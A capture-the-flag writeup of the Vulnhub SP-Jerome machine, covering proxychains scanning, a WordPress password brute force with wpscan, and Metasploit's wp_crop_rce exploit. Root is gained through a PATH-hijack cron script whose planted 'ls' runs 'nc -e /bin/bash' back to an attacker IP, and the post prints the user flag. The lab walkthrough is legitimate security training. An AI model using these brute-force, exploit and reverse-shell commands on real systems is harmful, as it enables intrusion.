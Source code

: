 ```yaml
---
layout: post
title: Vulnhub - SP-Jerome writeup
date: 2019-07-23 3:16
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/sp-jerome-v101,303/">Jerome </a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://dsolstad.com/"> Daniel</a></h4>

## Nmap

![](images/sp/nmap.png)

This is an insteresting machine. If we run the nmap scan on the IP we get only port `8080` open And if we visit that we'll get an error.

![](images/sp/error.png)

To fix this we can use `proxychains` tool. Add the following line in the end of the proxychain config file i.e `/etc/proxychains.conf`

```
http MACHINE-IP 8080
```

And then rerun the nmap scan with the following command

```bash
proxychains -q nmap -sT -sV -p- 127.0.0.1
```

![](images/sp/real-nmap.png)

Now we can see that in reality there are two more port running the HTTP service.

***

## HTTP

I got nothing on port `80`

![](images/sp/80.png)

And on port `1337`, I got nothing :)

![](images/sp/port-1337.png)

So I decided to run `dirsearch` on port `1337` because `80` said to `Move along`

![](images/sp/dirsearch.png)

We can see there's a wordpress website running.

![](images/sp/website.png)

Let's run `wpscan` and see if we can find anything.

```bash
➜ wpscan --url http://127.0.0.1:1337/wordpress/ --wp-content-dir wp-content/ -e u --no-banner --proxy http://192.168.1.115:8080
```

![](images/sp/user.png)

![](images/sp/vuln.png)

Okay so there are two user `root` and `jerome`. I ran dictionary attack on `jerome` account and found the password in only 26s

```bash
➜ wpscan --url http://127.0.0.1:1337/wordpress/ --wp-content-dir wp-content/ --proxy http://192.168.1.115:8080 --no-banner -U jerome -P passwords.txt
```

![](images/sp/password.png)

`jerome: jerome`

I logged into wordpress dashboard but since there was no `plugin` or `theme` editor I knew I can't get reverse shell from this.

So I decided to have a look at all the vulnerabilities we found from `wpscan`. Since we have authentication we can try to use them. The Only one that looked interesting was `2019-8942` the `Authenticated Code Execution`. I ran metasploit to exploit that .

```bash
use multi/http/wp_crop_rce
```

![](images/sp/options.png)

I ran the exploit with those options and got the reverse shell

![](images/sp/shell.png)

From there I got to `jerome` home directory and found the user flag

![](images/sp/user-flag.png)

`b0ed001c825`

***

## Privilege escalation

Even before I could run the `enumeration` script I found that jerome is a `sudoer` because there was a `.sudo_as_admin_successful` in his home directory.

![](images/sp/dir.png)

I spwan the TTY shell using

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

and tried to run the sudo command but `jerome: jerome` didn't work.

So I just ran the enumeration script and in cron I found a script

![](images/sp/cron.png)

![](images/sp/script.png)

This script run with `root` privileges and we can exploit that easily.

__How?__

Well if you take a good look to the script you'll see there are mutiple commands used like `cd` or `ls` without the exact path. We can make a file of those(`cd` or `ls`) name and put it in `/home/jerome` and wait for cron to execute it.

To do so, run the following commands:

```bash
$ echo "nc -e /bin/bash 192.168.1.107 5855" >> ls
$ chmod +x ls
```

And on your system run the listener i.e `nc -nlvp 5855`

![](images/sp/exploit.png)

And then wait for the cron to run the file and give you a root shell.

![](images/sp/root-shell.png)

![](images/sp/root.png)

***

This was an easy machine but I got learn about the proxychains which is a new thing for me.

Thanks to [@dsolstad](https://twitter.com/dsolstad) for making this machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/mzfr) for more “Writeups”.
